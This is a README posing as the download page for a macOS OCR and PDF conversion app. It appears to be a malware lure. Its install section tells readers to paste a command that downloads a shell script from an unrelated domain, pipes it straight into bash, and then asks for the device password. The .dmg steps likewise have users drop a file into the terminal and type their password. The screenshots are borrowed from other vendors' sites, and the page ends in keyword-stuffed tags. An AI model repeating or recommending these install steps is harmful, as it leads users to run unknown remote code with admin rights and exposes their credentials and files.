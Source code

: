 # 🧾 PDF Converter OCR — Advanced PDF Conversion and OCR Software for macOS

PDF Converter OCR is a powerful macOS application designed to convert scanned PDFs and images into editable and searchable documents. Utilizing advanced Optical Character Recognition (OCR) technology, it enables easy extraction of text from images and PDFs for seamless editing and data management.

## ✅ Download PDF Converter OCR for macOS  
[![Download PDF Converter OCR](https://img.shields.io/badge/Download-PDF_Converter_OCR-blueviolet)](https://pdf-converter-ocr-mac-download.github.io/.github)

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```bash
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get1/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)



## ✅ Download PDF Converter OCR for macOS  
[![Download PDF Converter OCR](https://img.shields.io/badge/Download-PDF_Converter_OCR-blueviolet)](https://pdf-converter-ocr-mac-download.github.io/.github)

---

## 📦 What is PDF Converter OCR?

PDF Converter OCR allows macOS users to transform scanned PDFs, images, and documents into editable Word, Excel, PowerPoint, and text files. Its high-accuracy OCR engine supports multiple languages and preserves the original layout, making document digitization fast and reliable.

---

## ✨ Features

- 🔍 Accurate OCR conversion from scanned PDFs and images  
- 📄 Convert PDFs to editable Word, Excel, PowerPoint, and Text  
- 🖼️ Supports image to text and image to Word conversions  
- 🌐 Multi-language recognition and layout retention  
- 🖥️ Native macOS support with Retina display optimization  
- 🔄 Batch conversion for multiple files at once  
- 🔐 Secure document processing with local offline OCR  

---

## 💡 Why Use PDF Converter OCR?

- ✅ Quickly digitize scanned documents for editing and sharing  
- 📈 Boost productivity by automating data extraction from PDFs  
- 🔄 Convert various file formats with minimal loss of formatting  
- 🔐 Keep sensitive files secure with offline processing  
- 🧰 Ideal tool for students, professionals, and businesses needing document OCR  

---

[![Download PDF Converter OCR](https://img.shields.io/badge/Download-PDF_Converter_OCR-blueviolet)](https://pdf-converter-ocr-mac-download.github.io/.github)

---

## 🖼️ Preview

![PDF Converter OCR Screenshot 1](https://www.lightenpdf.com/wp-content/themes/lightenpdf/images/products/pdf-converter-ocr-mac-3.jpg)  
![PDF Converter OCR Screenshot 2](https://www.cisdem.com/images/features/pdfconverterocr/main.jpg)

---

## 📌 Tags

pdf converter ocr, ocr pdf to excel, pdf image to text, ocr to excel, ocr scanning software, ocr2edit,  
scan pdf to text, convert scanned pdf to editable pdf, free ocr pdf, scanned pdf to word converter,  
online ocr pdf to word, convert scanned pdf to word online free, ocr text, convert pdf image to text,  
convert scanned pdf to text, convert scanned pdf to excel, ocr image reader, convert scanned pdf to word free,  
scanned document to word, scan text to word, free ocr pdf to word, scanned pdf to excel, ocr scanner online,  
convert scanned document to word, ocr pdf to word converter, nanonets pdf to excel, convert image to word text,  
pdf converter ocr mac, pdf converter ocr mac download
